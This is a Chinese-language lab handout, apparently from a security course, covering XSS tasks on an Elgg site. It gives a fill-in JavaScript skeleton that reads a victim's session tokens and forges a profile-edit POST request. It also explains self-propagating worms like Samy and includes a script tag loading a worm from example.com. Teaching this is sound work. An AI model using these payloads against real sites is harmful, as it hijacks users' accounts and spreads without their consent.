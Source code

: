 <div> </div>
<p></p>

========================================
文件路径: .\跨站脚本（XSS）攻击实验\任务5：修改受害者的资料\summary.html
========================================

<div>本任务的目标是在受害者访问 Samy 页面时修改其资料。具体来说，要修改  "About Me" 字段的内容。我们将编写一个 XSS 蠕虫来完成此任务。这个蠕虫不具有自我传播能力。在任务 6 中，我们会加上自我传播的能力。</div>
<p></p>
<div>和前一个任务类似，我们需要编写一个恶意的 JavaScript 程序，直接从受害者的浏览器发起 HTTP 请求。我们首先需要了解合法用户是如何编辑或修改其个人资料的。具体来说，我们需要弄清楚构造修改用户资料的 HTTP POST 请求的方式。我们将使用 Firefox 的 HTTP 检查工具。一旦理解了修改个人资料的 HTTP POST 请求的格式，我们就可以编写一个 JavaScript 程序来发出相同的HTTP请求。我们提供了一个 JavaScript 代码框架。</div>
<pre class="language-markup"><code>&lt;script type="text/javascript"&gt;
window.onload = function(){
  // 获取 user name, user guid, Time Stamp __elgg_ts，和 Security Token __elgg_token
  var userName="&amp;name="+elgg.session.user.name;
  var guid="&amp;guid="+elgg.session.user.guid;
  var ts="&amp;__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&amp;__elgg_token="+elgg.security.token.__elgg_token;

  //构造URL的内容
  var content=...;     // 填空
  var samyGuid=...;    // 填空
  var sendurl=...;     // 填空

  if(elgg.session.user.guid!=samyGuid)           🅰
  {
     // 创建并发送AJAX请求，以修改个人资料
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST", sendurl, true);
     Ajax.setRequestHeader("Content-Type",  "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
&lt;/script&gt;</code></pre>
<div>类似于任务 4，上述代码应放置在 Samy 的个人资料页面的  "About Me" 字段中，并且在输入上述 JavaScript 代码之前需要转换到文本模式。</div>
<p></p>
<div><strong>问题。</strong> 请回答以下问题：</div>
<div>
<ul>
<li><strong>问题3：</strong>为什么我们需要第 🅰 行？删除该行后再做攻击，报告并解释观察结果。</li>
</ul>
</div>

========================================
文件路径: .\跨站脚本（XSS）攻击实验\任务6：编写自我传播的XSS蠕虫\summary.html
========================================

<div>
<div>要成为真正的蠕虫，恶意 JavaScript 程序应该能够自动传播。每当一个用户查看受感染者的个人资料时，不仅这个用户的个人资料会被修改，蠕虫程序还会拷贝到该用户的个人资料中，使得这个用户也成为了蠕虫的携带者。这样，查看受感染个人资料的人越多，蠕虫传播得就越快。这与 Samy 蠕虫的机制相同：在 2005 年 10 月 4 日发布后的 20 小时内，超过一百万用户受到影响，使 Samy 成为当时历史上传播速度最快的病毒之一。</div>
<br>
<div>能够实现这一功能的 JavaScript 代码被称为"自我传播跨站脚本攻击蠕虫" 。在这个任务中，你需要实现这样一个蠕虫，它不仅会修改受害者的个人资料，并将用户 Samy 添加为受害者好友，还会将自身复制到受害者的个人资料中，使受害者变成一个攻击者。</div>
<br>
<div>为了实现自我传播，在恶意 JavaScript 程序修改受害者个人资料时应该将其自身复制到受害者的个人资料中。有几种方法可以实现这一点，我们讨论其中两种常见的方法。</div>
<br>
<div><strong>链接方法： </strong>如果蠕虫是通过 &lt;script&gt; 标签的 src 属性来下载的，那么编写自我传播蠕虫会容易得多。我们已在任务1中讨论了 src 属性，并给出了一个例子。蠕虫可以简单地将以下 &lt;script&gt; 标签复制到受害者的个人资料中就可以了。</div>
<div>
<pre class="language-markup"><code>&lt;script type="text/javascript" src="http://www.example.com/xss_worm.js"&gt;
&lt;/script&gt;</code></pre>